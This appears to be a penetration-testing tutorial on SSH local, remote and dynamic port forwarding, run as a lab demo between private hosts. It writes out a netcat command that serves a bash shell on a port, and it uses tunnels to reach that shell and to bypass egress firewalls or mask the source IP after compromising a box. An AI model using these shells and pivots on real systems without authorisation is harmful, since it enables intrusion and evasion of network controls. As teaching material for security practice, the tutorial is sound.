










# SSH Tunnelling / Port Forwarding

## SSH: Local Port Forwarding

If you are on the network that restricts you from establishing certain connections to the outside world, local port forwarding allows you to bypass this limitation.   
  
For example, if you have a host that you want to access, but the egress firewall won't allow this, the below will help:

```csharp
ssh -L 127.0.0.1:8080:REMOTE_HOST:PORT user@SSH_SERVER
```

All the traffic will flow through the SSH\_SERVER which DOES have access to the host you want to access. Let's see an example.

#### On machine 10.0.0.5

The below reads: bind on a local port 9999 \(on a host 10.0.0.5\). Listen for any traffic coming to that port 9999 \(i.e 127.0.0.1:9999 or 10.0.0.5:9999\) and forward it all that to the port 4444 on host 10.0.0.12:

```csharp
ssh -L9999:10.0.0.12:4444 root@10.0.0.12 -N -f
```

We can see that the 127.0.0.1:9999 is now indeed listening:



#### On machine 10.0.0.12

Machine 10.0.0.12 is listening on port 4444 - it is ready to give a reverse shell to whoever joins


#### On machine 10.0.0.5

Since the machine is listening on 127.0.0.1:9999, let's netcat it - this should give us a reverse shell from 10.0.0.12:4444:



The above indeed shows that we got a reverse shell from 10.0.0.12 and the local tunnel worked.

## SSH: Remote Port Forwarding

Remote port forwarding helps in situations when you have compromised a box that has a service running on a port bound to 127.0.0.1, but you want to access that service from outside. In other words, remote port forwarding exposes an obscured port to the host you want to connect to.

Pseudo syntax for creating remote port forwarding with ssh tunnels is:

```csharp
ssh -R 5555:LOCAL_HOST:3389 user@SSH_SERVER
```

The above suggests that any traffic sent to port 5555 on SSH\_SERVER will be forwarded to the port 3389 on the LOCAL\_HOST - the host that runs the service that is only accessible from inside that host.

#### On machine 10.0.0.12

Let's create a reverse shell listener bound to 127.0.0.1 \(not reachable to hosts from outside\) on port 4444:

```csharp
nc -lp 4444 -s 127.0.0.1 -e /bin/bash & ss -lt
```



Now, let's open a tunnel to 10.0.0.5 and create remote port forwarding by exposing the port 4444 for the host 10.0.0.5:

```csharp
ssh -R5555:localhost:4444 root@10.0.0.5 -fN
```

The above says: bind a port 5555 on 10.0.0.5 and make sure that any traffic sent to port 5555 on 10.0.0.5, please send it over to port 4444 on to this box \(10.0.0.12\).

#### On machine 10.0.0.5

Indeed, we can see a port 5555 got opened up on 10.0.0.5 as part of the tunnel creation:



Let's try sending some traffic to 127.0.0.1:5555 - this should give us a reverse shell from the 10.0.0.12:4444 - which it did:



## SSH: Dynamic Port Forwarding

Pseudo syntax for creating dynamic port forwarding:

```csharp
ssh -D 127.0.0.1:9090 user@SSH_SERVER
```

The above essentially means: bind port 9090 on localhost and any traffic that gets sent to this port, please relay it to the SSH\_SERVER - I trust it to make the connections for me. Once it gets a response, please send that data back to me.

For the demo, let's check what is our current IP before the dynamic port forwarding is set up:



Creating an ssh tunnel to 159.65.200.10 and binding port 9090 on the local machine 10.0.0.5:

```csharp
ssh -D9090 root@159.65.200.10
```



Checking network connections on the localhost 10.0.0.5, we can see that the port 9090 is now listening:



This means that if we send any traffic to 127.0.0.1:9090, that traffic will be sent to the hosts on the other end of the ssh tunnel - 159.65.200.10 and then the host 159.65.200.10 will make connections to other hosts on behalf of the host 10.0.0.5. It will return any data it receives back to the originating host 10.0.0.5.

To test this, we can set our browser to use a socks5 proxy server 127.0.0.1:9090 like so:



If we check what our IP is again, it is obvious that we are now indeed masquerading the internet as 159.65.200.10:




Dynamic port forwarding plays along nicely with ProxyChains.


## References




